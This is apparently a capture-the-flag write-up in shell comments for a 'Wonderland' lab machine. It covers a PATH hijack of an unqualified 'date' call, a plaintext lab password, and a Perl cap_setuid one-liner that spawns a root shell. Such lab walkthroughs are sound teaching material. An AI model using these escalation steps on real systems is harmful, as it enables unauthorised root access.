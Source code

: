 # Let's see what does it hide from us
# Compiled binary file
# Execution
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Wed, 14 Dec 2022 21:56:16 +0000
Ask very nicely, and I will give you some tea while you wait for him

# Printing file to stdout show us something interesting
# Between strings of the text there is such a command
/bin/echo -n 'Probably by ' && date --date='next hour' -R

# date tool is called without specifying path
# So we can rewrite path variable, adding to the top our "date" tool, that will give us a shell of hatter user

# We have catched hatter user

# In the hatter directory password.txt file is located
WhyIsARavenLikeAWritingDesk?

# So let's go login to ssh as hatter as we have its password,
# because at current moment we are located at the process of teaParty sript
# which locate at the process of python script of alice user 


# So using perl with cap_setudi+ep capabilities we can login as root
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

# Machine is pwned!
